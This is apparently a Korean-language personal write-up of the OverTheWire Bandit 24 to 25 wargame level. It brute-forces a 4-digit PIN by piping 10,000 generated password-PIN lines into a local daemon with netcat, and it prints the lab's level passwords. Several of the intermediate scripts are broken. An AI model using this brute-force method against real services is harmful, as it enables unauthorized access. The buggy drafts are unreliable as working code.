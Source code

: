 #### A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. </br>There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. </br>You do not need to create new connections each time


#### bandit23-24 password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8



### 문제풀이
---
* daemon은 30002포트에서 리스닝중.
* bandit24 비밀번호, secret numeric 4-digit pincode를 주면 bandit25비밀번호 반환.
* brute-forcing으로 해결

* ssh bandit25@bandit.labs.overthewire.org -p 30002

* 접속해서 비밀번호, pin code줘도 반응 없으니 -v옵션으로 로그 확인

* wx권한 있는 /tmp 디렉터리에 폴더 만들고 파일 생성
```
mkdir /tmp/pindir
vim /tmp/pindir/pinmaker.sh
```


```
// pinmaker.sh
#! bin/bansh
// ssh로 bandit25에 연결시도
// bandit24 비밀번호로 접속
// 접속 성공시 bandit24 비밀번호 전달
// pin code조합 전달
ssh bandit25@bandit.labs.overthewire.org -p 30002
```
이 파일을 bandit24에다가 만들어야 하는지 bandit25에다 만들어야 하는지ㅣㅣㅣㅣㅣㅣㅣㅣㅣㅣㅣㅣㅣㅣㅣㅐㅣ

bandit25에는 ssh접속 해봤자 비밀번호와 핀코드밖에 입력 못함ㅁ.............

* ssh bandit25@bandit.labs.overthewire.org -p 30002 'gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000' </br> 이런식으로 작성하면 ssh접속후 ''안의 command를 바로 실행 할 수 있지만 매번 새로운 연결을 생성할 필요는 없다고 했으니 다른, 더 좋은 방법이 있을거임.

* ssh user@host /tmp/fvdir/fvfile.sh 처럼 연결후 파일을 실행시킬수 있음
```
#! /bin/bash
//그냥 0000부터 9999까지 while문 돌리면 될듯 // %04d
while [${pin} -le 9999]
do
    printf 'gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0${pin}d'
done
```
/tmp/pindir/pinmaker.sh 만들고 실행 -> permission denied
```
chmod 777 /tmp/pindir/pinmaker.sh
```
재실행 
```
/tmp/pindir/pinmaker.sh: line 2: [: missing `]'
```
```
#!/bin/bash
pin=0
while (( pin <= 9999 )); do
  printf 'gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 %04d\n' "$pin"
  ((pin++))
done
```
ssh user@host 'bash -s -- arg1 arg2' < local_script.sh

ssh -v bandit25@bandit.labs.overthewire.org -p 30002 'bash -s -- ' < /tmp/pindir/pinmaker.sh


이거 ssh가 아니라 localhost로 보내는거임.

bandit25 user로 요청을 보내라는 말이 아니라.

gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001

nc localhost 30002

shell script로 nc연결후 bandit24 pw pincode 제출

```
#!/bin/bash


```

* cat /tmp/pindir/pinmaker.txt | nc localhost 30002

이렇게 하면 pinmaker.txt에 있는 행들이 서버에서 실행? 됌/

```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0002
...
이런 형식의 행을 9999까지 만든 파일이 필요
```

```
#!/bin/bash
pin=0
: > pintext.txt  # 초기화(옵션)
while (( pin <= 9999 )); do
  printf 'gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 %04d\n' "$pin" >> pintext.txt
  ((pin++))
done
```

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4